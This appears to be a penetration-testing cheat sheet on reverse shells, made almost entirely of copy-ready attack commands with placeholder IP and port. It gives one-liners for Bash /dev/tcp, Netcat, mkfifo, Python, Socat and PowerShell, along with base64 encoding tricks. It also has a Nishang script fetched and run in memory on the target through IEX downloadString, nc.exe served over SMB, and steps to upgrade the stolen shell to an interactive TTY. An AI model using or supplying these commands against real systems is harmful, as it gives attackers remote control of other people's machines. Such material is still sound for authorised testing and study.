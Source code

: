 # Reverse Shells

## Reverse Shells

### Reverse Shell Generator

[https://www.revshells.com/](https://www.revshells.com/)

### Bash

```bash
bash -i >& /dev/tcp/<ip>/<port> 0>&1
```

{% hint style="info" %}
It is recommended to encapsulate the command in a `bash -c ''` to prevent issues with the _**/dev/tcp**_ bash functionality.
{% endhint %}

We can encode the content in **base64**, to avoid conflicts with symbols and spaces in URLs. Additionally, to prevent any _"+"_ characters from appearing, we can use double encoding.

```bash
# Get the encoded command
echo "bash -i >& /dev/tcp/<ip>/<port> 0>&1" | base64 | base64

# Execute the reverse shell
echo <b64_code> | base64 -d | base64 -d | bash
```

### Netcat

```bash
nc -e /bin/bash <ip> <port>
```

### Mkfifo

```bash
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc <ip> <port> >/tmp/f
```

### Python3

```bash
i="<ip>" p=<port> && echo "import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(('$i',$p));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn('bash')" | python3
```

### Socat

```bash
socat tcp-connect:<ip>:<port> exec:/bin/bash,pty,stderr,setsid,sigint,sane
```

### PowerShell&#x20;

#### Base64

```bash
# Get the encoded command
echo '$client = New-Object System.Net.Sockets.TCPClient("<ip>",<port>);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + "PS " + (pwd).Path + "> ";$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()' | iconv -t utf-16le |base64 -w 0; echo

# Execute the reverse shell
powershell -e <b64_code>
```

#### Nishang

Run this on your local machine:

{% code overflow="wrap" %}
```bash
i="<ip>" p=<port> && curl -sL https://raw.githubusercontent.com/samratashok/nishang/master/Shells/Invoke-PowerShellTcp.ps1 -o rs.ps1 && echo "Invoke-PowerShellTcp -Reverse -IPAddress $i -Port $p" >> rs.ps1 && python3 -m http.server 80
```
{% endcode %}

And while running the python http server, execute this on the target:

```powershell
powershell "IEX(New-Object Net.WebClient).downloadString('http://<ip>/rs.ps1')" 
```

#### Netcat

Locate "nc.exe" and copy it to your current directory, then run this on your local machine:

```bash
smbserver.py <share_name> $(pwd) -smb2support
```

And while running the smb server, execute this on the target:

```html
\\<ip>\smbShare\nc.exe -e cmd <ip> <port>
```

## Interactive TTY

{% hint style="info" %}
It is also possible to use `rlwrap` when starting your listening socket:

```bash
rlwrap -cAr nc -nlvp <port>
```
{% endhint %}

```bash
script /dev/null -c bash
```

or

```bash
python -c 'import pty; pty.spawn("/bin/bash")'
```

and then

```bash
# <Ctrl> + <z>
stty raw -echo; fg
reset xterm
export TERM=xterm
export SHELL=bash
stty rows <rows> columns <cols>  # Check size in another window -> stty size
```
